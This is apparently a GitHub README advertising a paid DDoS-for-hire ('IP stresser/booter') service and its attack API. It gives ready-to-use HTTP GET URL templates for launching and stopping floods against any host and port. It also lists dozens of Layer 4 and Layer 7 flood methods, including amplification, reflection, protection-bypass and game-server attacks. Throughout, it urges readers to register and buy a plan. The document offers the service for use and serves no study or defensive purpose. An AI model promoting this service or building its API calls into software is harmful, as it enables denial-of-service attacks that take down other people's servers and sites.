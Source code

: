 # DDOS / Attack API
Working DDOS API For [IP Booter](https://nightmarestresser.net/) / [IP Stresser](https://nightmarestresser.net/) With Layer 4 & Layer 7 Functions Supporting Stopping & Sendind Of Up To 150 Concurrent Floods With A Simple HTTP GET Request, Working In 2023.

![karma](https://i.imgur.com/FerP3kP.png)

Introduction & API Documentation:

API is useful if you wish to implement it into your own software or create your own ip booter / ip stresser, allowing you to launch/stop attacks with a simple HTTP GET request, Only thing needed is for you to register and get a plan that includes API access to get your API KEY on [nightmarestresser.net](https://nightmarestresser.net/)


Send Attack:
https://api.nightmarestresser.net/?key=[KEY]&method=[METHOD]&host=[HOST]&port=[PORT]&time=[TIME]


Stop Attack:
https://api.nightmarestresser.net/?key=[KEY]&method=STOP&host=[HOST]&port=[PORT]&time=[TIME]


Layer 4 Methods
UDP-AMP, SSDP, TCP-AMP, TCP-OVH, TCPBYPASS, TCP-HANDSHAKE, TCP-REFLECT, UDP-BYPASS, UDPBYPASS, TCP-TLS, TCP-RAND, TCP-SYN, NTP, CLDAP, DNS, ARD, WSD, FIVEM, GAME-FIVEM, TCP-DEVICES, CHARGEN, GAME-ARK, GAME-MINECRAFT, TCP-DATA, TCP-ACK, TCP-RAW, TCP-TFO, TCPBYPASSV2, UDP-ABUSE, TCP-ECN, GAME-SOURCE, SOURCEOVH, TCP-IMP, ICMP-AMP, SNMP, DVR, GAME-SAMP	

Layer 7 Methods
ROSETTA, STORM-HTTP, STORM-CONNECT, STORM-BYPASS, HTTP-REQ	

![logo](https://dim.mcusercontent.com/cs/884fc8aa3c2d91b5cfb02efc2/images/49466a15-f998-d9d7-b9a9-c35f214db9f1.png?w=564&dpr=2)
